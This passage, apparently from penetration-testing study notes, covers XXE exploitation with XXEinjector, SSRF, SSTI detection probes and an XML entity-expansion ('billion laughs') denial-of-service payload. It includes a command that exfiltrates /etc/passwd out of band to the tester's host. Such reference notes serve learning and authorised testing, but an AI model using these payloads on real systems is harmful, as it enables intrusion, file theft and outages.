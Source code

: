    3. Send Request

  - [XXEinjector](https://github.com/enjoiz/XXEinjector)

    - Add after header XXEINJECT in the request:

      ```xml
      <?xml version="1.0" encoding="UTF-8"?>
      XXEINJECT
      ```

    - ```bash
      ruby XXEinjector.rb --host=[tun0 IP] --httpport=8888 --file=xxe.req --path=/etc/passwd --oob=http --phpfilter
      ```

    - See the results

      ```bash
      cat Logs/[IP]/[PATH].log
      ```

- **SSRF**

  enumerate open ports and access their pages, and restricted web pages

- **Denial of Service (DOS)**

  ```xml
  <!ENTITY a0 "DOS" >
    <!ENTITY a1 "&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;">
    <!ENTITY a2 "&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;">
    <!ENTITY a3 "&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;">
    <!ENTITY a4 "&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;">
    <!ENTITY a5 "&a4;&a4;&a4;&a4;&a4;&a4;&a4;&a4;&a4;&a4;">
    <!ENTITY a6 "&a5;&a5;&a5;&a5;&a5;&a5;&a5;&a5;&a5;&a5;">
    <!ENTITY a7 "&a6;&a6;&a6;&a6;&a6;&a6;&a6;&a6;&a6;&a6;">
    <!ENTITY a8 "&a7;&a7;&a7;&a7;&a7;&a7;&a7;&a7;&a7;&a7;">
    <!ENTITY a9 "&a8;&a8;&a8;&a8;&a8;&a8;&a8;&a8;&a8;&a8;">        
    <!ENTITY a10 "&a9;&a9;&a9;&a9;&a9;&a9;&a9;&a9;&a9;&a9;">  
  ```

  This payload defines the `a0` entity as `DOS`, references it in `a1` multiple times, references `a1` in `a2`, and so on until the back-end server's memory runs out due to the self-reference loops. *No longer works with modern web servers.*



### SS Template Injection

**Template Engines** are used to display dynamically generated content on a web page. They replace the variables inside a template file with actual values and display these values to the client.

**Server-side template injection** is a vulnerability where the attacker injects malicious input into a template in order to execute commands on the server.

If an SSTI exists, after submitting one of these:

`{{7*7}}`
`${7*7}`
`<%= 7*7 %>`
`${{7*7}}`
`#{7*7}`
